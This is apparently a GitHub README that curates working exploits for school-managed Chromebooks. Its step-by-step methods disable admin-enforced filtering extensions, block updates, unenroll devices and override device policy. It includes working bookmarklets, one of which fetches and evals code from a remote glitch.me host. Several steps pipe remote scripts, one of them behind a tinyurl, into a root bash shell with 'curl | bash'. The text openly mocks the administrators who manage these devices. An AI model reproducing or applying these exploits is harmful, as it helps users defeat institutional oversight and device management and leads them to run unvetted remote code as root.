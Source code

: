 # EXT-REMOVER
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destroy your computer if misused. So PLEASE, PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/3kh0/ext-remover/discussions">here</a>

Please use these only when you have permission, I (3kh0) do not condone the use of any exploits for illegal purposes!
  
**ATTENTION ALL SYS ADMINS!!!**

Have fun patching all these

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Disable extensions</summary>

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are interested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhereblahblah/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. On the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs, and the extension will be dead. If nothing loads, you probably reloaded too late or spammed too slowly. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is highly misleading. Nobody blocked it--you need to find the correct extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should appear to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension, but now I can't load websites!**

If you just read the write-up, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners mean you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you needed to be spamming bookmark C faster. The most reliable fix is to restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension. Why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. Again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

[Baby method for slow people](https://ltmeat.bypassi.com/alt/1.txt)

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Temporary LTMEAT</b> Temporarily disable extensions</summary>

**A method of using LTMEAT that does not require `chrome://` urls.
Works by using 80-150 tabs to soak up memory.**

1. Create a bookmark with the link chrome://extensions/?id=idhereidkimaskid and name it “Kill switch”.

2. Create a new bookmark folder. Name it “spam.js”. Next, paste this link into your browser: chrome-extension://insertextidhere/background.js

3. Then right-click on your folder and hit “Add Page”. Press Enter.

4. Right-click on the folder again and hit “Bookmark Manager”. You should see your page. Click on it and hit Ctrl+C. Press Ctrl+V until you have 38 of them.

5. Go to a new tab and right-click your folder. Press “Open All (38)”.

6. Repeat step 3, then click on one of the tabs from this batch. Wait until the “this page is taking too long” popup appears. This will take 30-60 seconds. If it doesn’t, do chrome://restart and go back to step 2 and add 3-4 more pages to the folder.

7. Once the popup happens, right-click on one of the tabs closest to the right of the screen and hit “Duplicate”. Then, go to your “Kill switch” bookmark and look for a switch to flip, “Allow Access to File:// urls” or something. Then, click on the leftmost extension tab (one that opened from the main.js folder) and click “Close all tabs to the right”. KEEP THIS TAB OPEN!!!

Tips: Go to chrome://settings/performance and turn Memory Saver off, and in the box where it says “Keep these sites always active,” paste in the extension URL. I’ve noticed clicking on one of the tabs from the second batch seems to help with reliability.

</details>

<details>
<summary><b>Baby LTMEAT</b> Disable extensions</summary>

**Patched On Chrome Versions 115 And Above**

BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGED.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>NEW LTMEAT</b> Disable extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel, Then Here's A New Method For LTMEAT**

**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page many times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right-click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything, and you're good to go. If it didn't work, try adjusting the number of open tabs.


Bypassi should add this to his website as an Alternate Method # 2. With this workaround, LTMEAT can endure a longer life!

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby NEW LTMEAT</b> Disable extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook I used 800 extension page tabs as I feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tabs in a new window, maybe waiting slightly longer to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen and a wait/exit page button," you did it right. BUT DO NOT CLICK THE EXIT PAGE BUTTON OR WAIT BUTTON. (Or if you want to do it fast, you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the one extension page tab remaining.

</details>

<details>
<summary><b>Print LTMEAT</b> Disable extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json.
2. Go to that page. and hit Ctrl+P. A print window should show up, with several pages in the top right.
3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you get that number, the longer the effect will last.
4. Reload. The page should start hanging.
5. Go to your extension's settings page, `chrome://extensions`.
6. Duplicate your "printing" tab, and go back to your extension's settings page.
7. Flip any switch you can find there. Usually, there'll be one titled "Allow Access to File:// [URI]s".
8. Enjoy


**Where do I find my extension's manifest.json?**
First, find your extension's ID. This is a 32-character code found on your extension's settings page, normally near or at the top. Then go to `chrome-extension://your-32-char-id-goes-here/manifest.json`

Credit to Bypassi for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hung with printing and lots of help and suggestions.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**

HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Disable extensions</summary>

**Dextensify is an exploit that lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here [Dextensify.html](Dextensify.html)

Made by <a href="https://ading.dev/">ading2210</a>

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this won't work if there's not a plugin in there.
3. Hit the start button then the `inspect` button, and execute the basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit
</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

1. Esc+Refresh+Power and re-enroll (Enter recovery page), or you can just powerwash.
2. log into your Chromebook and immediately turn off wifi and do refresh+power to (instant restart)
3. Log back into your Chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as an existing user.
4. Go to chrome://extensions, turn on wifi, and wait for your school's blocking extension to appear.
5. As soon as it appears, turn off wifi and instant restart as fast as you can.
6. Log back in, go back to extensions, and wait. If it says your blocking extension could be corrupted or doesn't appear at all, then it worked (wait at least a minute with a close watch in case it comes back)
7. If it didn't work repeat from step 1.
8. If it did work, congrats you did it.

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without an allowlist. 

Steps: 
Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a DNS)
go to chrome.google.com/webstorex and use the bookmarklet, then put the icon of the extension, the id, and the name of it (This does not matter, you can put anything), then
press download, and it will work.
**Extra Notes**
- Credit to "Aka, but nice" on Discord.
- DNS will be up soon for those who have JavaScript bookmarklets blocked.
- This will not work if you have a blocklist this is only for if when you go to the web store it shows blocked

</details>

<details>
<summary><b> Point-Blank</b> Execute scripts on extension pages</summary>

This exploit allows you to execute scripts on extension pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked you're screwed.)
1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> ([if blocked](https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js)) on your school chromebook.
2. Make a bookmark with the code there.
3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by Chrome, reload (you have to actually have Securly ofc)
 
 If you have iBoss visit <a href="https://tinyurl.com/goofboss">here</a>.
For Cisco Umbrella, visit <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian (might not work), go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by me, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
https://dsc.gg/blue-hat-crew

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school-issued Chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifi that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your Chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you CAUBed)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise, you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB via Flags</b> Prevent Updates</summary>

This alt exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a Chrome flag, you can convince your Chromebook not to automatically update.

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead
2. Enable it and restart your device
3. Go to your network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your Chromebook will no longer automatically update.
- Chrome://flags must not be blocked by your school otherwise, this exploit will not work
- And you must be able to enable flags if it ain't blocked otherwise, this exploit won't work

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Blank3r is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

The exploit code is below.
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the GUI is in launcher.js

2. Navigate to `chrome://extensions`.

3. Click on an extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the ID of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>sh1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

[Official Repository](https://github.com/CoolElectronics/sh1mmer)  
[Official Website (INSTRUCTIONS)](https://sh1mmer.me/)  
[Raw Shims Download](https://files.ultimatesrv.com/)  
[Wax4Web Shim Builder](https://build.ultimatesrv.com/)
</details>

<details>
<summary><b>Downgrading</b> Change versions</summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF. This is a built-in feature of ChromeOS.

![image](https://user-images.githubusercontent.com/58097612/212685863-3d6b8ce1-7caa-4735-95a8-8eb6787b227c.png)

<i>Requirements</i>
1. A USB thumb drive with at least 4GB of storage, some boards have small or bigger images, I recommend 16GB
2. A personal computer with access to downloading extensions
3. A brain
If you do not have these, you **CAN NOT** perform the exploit!

<i>Setup</i>
1. Navigate to `chrome://version` on the Chromebook you wish to downgrade and check for your board under `Platform` (ex I have a c3100 and its board is stable-channel octopus).

<img src="https://user-images.githubusercontent.com/88395302/212484378-65e6e6e3-b995-48a1-b229-3265a4993279.png">

2. Navigate to https://chrome100.dev/ , press `ctrl+f` and type in your board.
3. Find and download the Chrome version you want to your personal computer.

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer. (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">chrome.google.com/webstore/detail/Chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm</a>
2. Open the extension, click on the settings button in the top right-hand corner, and click "use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your Chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen, press `ctrl`+`shift`+`e` to skip the "checking for updates" screen.
7. Profit.

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a Linux PC or VM. WSL is not guaranteed to work.

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 updates patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point, you need to start spamming the E key on your keyboard. It will begin a 5-minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5-minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the USB around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Extension Inactivity hack</b> Inactive Extensions</summary>

1. First, do the Esc+Refresh+Power
2. Press ctrl+d, then enter
3. Will give you some bullcrap about dev mode being blocked press enter then you will go to a newly powerwashed Chromebook
4. Next, add wifi
5. Then sign into your account
6. Immediately turn wifi off before extensions load
7. Go to `chrome://settings/signOut`
8. Click turn off sync and personalization and then turn wifi back on go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps or just flip off everything except for bookmarks

Note: Before you do any of this do it at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New TUA</b> Temporarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**
  
1. go to the chrome-extension://blockeridhere/manifest.json page.

2. go to a new tab page and type in the URL Website you want to unblock. don´t go into that website yet just leave it inside the URL Box.

3. go back to chrome-extension://blockeridhere/manifest.json now create a bookmark called E. now click more and In the URL Box you put chrome://kill. now save that bookmark.

4. create another bookmark called D. click more In the URL Box copy and paste
   ```
   javascript:(function () {window.onbeforeunload = function() { return 1; };})()
   ```
  Into that URL Box and save that bookmark.

6. go back to chrome-extension://blockeridhere/manifest.json page and now click bookmark B. then quickly go back to the new tab page and click enter. now quickly spam bookmark D like 2 or more times now there should be a pop up called "do you want to close this page?" click cancel. now boom that website is unblocked until you turn off your chromebook or until you exit out of that website. then if that happen´s your gonna have to do all the steps again.

  Easier way for step 2: instead of putting the URL in the new tab box go to chrome-extension://blockeridhere/manifest.json page. then click Bookmark E then go to a random website. then use the javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1)) Bookmarklet. then spam Bookmark D two or more times then a pop up should appear. quickly click cancel now boom all done.    Name of Bookmarklet > Unblock Website: javascript:open('https://YOUR WEBSITE HERE?'+'i'.repeat(1))

Note: Save chrome-extension://blockeridhere/manifest.json as a bookmark so you don´t have to come back here and type in the URL thing.

IMPORTANT NOTE: if bookmarklets are blocked your screwed, womp womp

</details>

<details>
<summary><b>Old TUA</b> Temporarily Unblock Any Website</summary>

1. Make a bookmark called tab close blocker. now click more on the bottom left corner. now in that URL BOX put in `javascript:(function () {window.onbeforeunload = function() { return 1; };})()`
2. Go to a new page. now go into the URL BOX on the top and put https://YOUR WEBSITE HERE. do not click enter yet stay in that URL BOX.
3. Do search+esc now which should open task Manager. if search+esc doesn't work then click the three dots on the top right. now and scroll down until you find more tools click that and find task Manager.
4. Find your blocker extension and click it. now on the bottom right you should see a button called End process. click it now quickly click the URL BOX on the new page and click enter. now quickly spam the bookmark tab close blocker. now a pop up should come up it should have to buttons cancel and leave. click cancel.

IMPORTANT NOTE: You can not do this exploit if bookmarklets or the task manager is blocked. womp womp
</details>

<details>
<summary><b>Enterprise Enrollment Glitch</b> Unenroll/Bypass Enterprise Enrollment</summary>

This only works on Chrome versions 115 and above, and your school has not to have force enterprise enrollment on your school Chromebook

1. Powerwash your Chromebook

A) esc+refresh+power

B) then "ctrl"+"d" and then space or enter

2. Then add wifi
3. Now when it takes you to the enrolling screen or whatever immediately turn off wifi, then wait until it says enterprise enrollment has failed or something like that
4. There should be 2-3 buttons to use as a personal device and enroll manually and try again
5. Click use as a personal device, then add back wifi and then sign in and boom Unenrollment worked

If it doesn't work then your screwed, womp womp

</details>

<details>
<summary><b>Fakemurk</b> Trick your Chromebook into being in developer mode while being enrolled in your school's profile.</summary>

**Fakemurk is a script that can run in developer mode to trick your Chromebook into being in developer mode while being enrolled in your school's profile. You can use this to disable any extension, as well as have full access to the Chrome web store and Google Play store. This provides a personal Chromebook-like experience while still being enrolled.**

Go here and follow instructions: <a href="https://docs.google.com/document/d/1Pku_CbEG9SwQtnm0I188RtpdpW8nXQhiNdMp8PN7Mik/edit?pli=1">Fakemurk Doc</a>

</details>

<details>
<summary><b>Pollen</b> Chrome OS User Policy Editor</summary>

How To Use

- Normal
  - Note: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash`
  - Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`.
- PollenFS (RootFS)
  - Note: Disabling RootFS **will** Soft-Brick your Chromebook when booting back into normal mode.
  - Note II: Devmode **NEEDS** to be enabled.
  - Open Crosh
  - Run `shell`
  - Run `sudo su`
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/RootFS.sh | bash`
  - Reboot
  - Go Through Steps 1-3 Again
  - Run `curl -Ls https://mercuryworkshop.github.io/Pollen/PollenFS.sh | bash`
  - Done! Your Pollen configuration is now permanently applied!

It works by loading a custom user policy into chromeOS. (Similar to how policies on windows work.)  

Using this we can either disable RootFS permanently or temporarily to load it.  

CrOS does not have the folder to load it built-in, however, the src code is still there so we can manually create it.  

Then simply we just create the file and restart.

Credits
- Pollen Developer - Scaratek
- Discovery - Rafflesia
- Original Script Developer - OlyB
- Logo - Nitelite
- Fixed Bug - r58playz
- Added Policies - 5less-chromosones

To make your own modifications refer to the Pollen Wiki

<a href="https://github.com/MercuryWorkshop/Pollen/wiki#getting-your-policies">Pollen Modifaction Wiki</a>

Further reading:
- https://github.com/MercuryWorkshop/Pollen

</details>

<details>
<summary><b>Customized Pollen</b> Chrome OS Policy Editor Customized</summary>

**Customized Pollen for SH1mmered chrombook users.** 

The original pollen by Mercury Workshop: https://github.com/MercuryWorkshop/Pollen 

It removes all admin-installed extensions and that's kinda a problem for me so this is edited it to make it fit more for SH1mmer users

So I customized this one to edit lots of features  but to keep all admin-installed extensions

incognito mode: on (everything unblocked, idk if extensions like GoGauridan can see)

ExtensionSettings: all settings removed

HomepageLocation: chrome://newtab

NewTabPageLocation:             (left empty)

ManagedBookmarks: removed all school added bookmarks

PinnedLauncherApps: removed all force pinned apps to home bar

RestoreOnStartupURLs:   (set it so when you open a new window some schools force it to also open the school's homepage so its set back to new tab and no extra tabs)

WebAppInstallForceList: removed all force installed apps


How to run

Note: Devmode NEEDS to be enabled.
Open Crosh

Run
```
shell
sudo su
curl -Ls https://tinyurl.com/repollen | bash
```

Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`

Errors

If you have Linux enabled you will have to turn it off and turn it back on for it to work

THIS WILL RESET EVERY TIME YOU RESTART THE CHROMEBOOK SO YOU WILL NEED TO REDO THE PROCESS

</details>
  
<details>
<summary><b>Killcurly</b> Break extensions</summary>
Kill the extension by signing out.

1. Visit `chrome://settings/signOut`, the O in Out must be capitalized.
2. Press the big blue button
3. Go to `chrome://restart`
4. Now visit `tinyurl.com/AddSession` or [this link](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, YouTube, and any Google service.
6. All extensions should stop working.
7. Note that you must repeat this every time you restart or sign out.
8. If your Chrome version is `v112`, this exploit will no longer work, the bypass to this is listed further on. Visit`chrome://settings/resetProfileSettings` click current settings, and it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
And visit `chrome://restart`.
`
**This was discovered by Zoroark**
</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's [README](https://github.com/ading2210/shimboot).**

Further reading:
- https://shimboot.ading.dev/
- https://github.com/ading2210/shimboot

Credit to [vk6](https://ading.dev/) for this exploit
</details>

<details>
<summary><b>Extention Inactivity hack</b> Inactive Extensions</summary>

1. First do the Esc+Refresh+Power

2. ctrl+d then enter

3. will give you some bullcrap about dev mode being blocked press enter then you will go to a newly restarted Chromebook

4. next add wifi-

5. then sign into your account

6. Immediately turn wifi off before extensions load

7. go to chrome://settings/signOut

8. click Turn off sync and personalization and then turn wifi back on and go to whatever site that is extension blocked.

1. Workaround for chrome://settings/signOut if patched: If the link gets patched and you no longer see the blue button, go to `chrome://settings/resetProfileSettings` and click current settings, it'll open a blank page, on that page run 
```js
javascript:opener.chrome.send("TurnOffSync");
```
2. Workaround for `chrome://settings/signOut` and `javascript:opener.chrome.send("TurnOffSync");` if both patched: Just go to `chrome://settings/syncSetup/advanced` and click 
Customize sync and then flip off the Extensions and Apps

Note: Before you do any of the method 4 tricks only do this at home so that way you don't have to worry about asking for the school wifi password.

</details>

<details>
<summary><b>New Temporarily Unblock Anything</b> Temperarily Unblock Any Website</summary>

**Might Be Patched on 115 And Above**

1. Go to the chrome-extension://Paste the blocker id here/manifest.json page.
